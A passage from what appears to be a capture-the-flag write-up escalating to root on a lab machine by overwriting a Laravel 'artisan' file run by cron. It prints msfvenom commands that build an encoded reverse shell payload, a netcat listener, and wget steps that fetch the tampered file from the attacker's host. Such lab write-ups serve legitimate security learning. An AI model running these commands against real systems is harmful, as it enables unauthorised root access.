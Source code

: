 
This code will download another reverse shell payload to `/tmp` and hopefully provide a `root` shell. To do this, another reverse shell payload must be made and served:

```bash
# generate the payload
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=10.10.14.23 \
         LPORT=7777 \
         –e x86/shikata_ga_nai \
         -i 9 \
         -f elf > root.bubba.elf
# host the payload on port 8080
python3 -m http.server 8080
# wait for the callback
nc -nvlp 7777
```

Copy the source code from the original `artisan` file and insert the custom PHP code at the top after `<?php` and save that file on Kali as `artisan.new`. Then in the `www-data` reverse shell, run the following commands to download and overwrite the `artisan` file on the target:

```bash
cd /var/www/laravel
wget http://10.10.14.23:8080/artisan.new
mv artisan.new artisan
```

Then after waiting a minute, the reverse shell is created as `root`!

![root](./cronos/root.png)

